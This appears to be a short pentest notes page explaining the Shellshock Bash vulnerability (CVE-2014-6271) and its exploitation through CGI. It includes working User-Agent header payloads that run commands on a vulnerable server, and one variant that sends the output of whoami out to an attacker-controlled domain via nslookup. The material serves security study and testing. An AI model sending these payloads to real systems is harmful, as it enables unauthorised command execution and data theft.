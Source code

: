 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CVE - Shellshock

Is a critical vulnerability now reported as [_CVE-2014-6271_](https://nvd.nist.gov/vuln/detail/cve-2014-6271) found in the _Bash_ shell, which allows an attacker to execute arbitrary commands by injecting specially crafted environment variables. This affects applications and services that pass external input to _Bash_, such as CGI scripts in web servers.

CGI (Common Gateway Interface) is a standard protocol that defines how web servers communicate with external programs to generate dynamic content. The web server passes input, normally on requests, to a CGI script using environment variables and stdin, then the web server executes that script and sends the output back to the client as a web response.

Here we find how this could be exploited:

* We detected that a the values of headers like _User-Agent_ or _Referer_ are passed to a internal GCI

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># We could craft a payload to generate a RCE to get a bash  
<strong>User-Agent: u() { :; }; echo; echo; /bin/bash -c 'id'
</strong><strong>
</strong><strong># If successful, the command will be executed. Sometimes we will see the reult on the response but in other cases we have to adopt blind techniques
</strong><strong>
</strong># We could to play with a domain we control
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).&#x3C;OurDomain>
</code></pre>

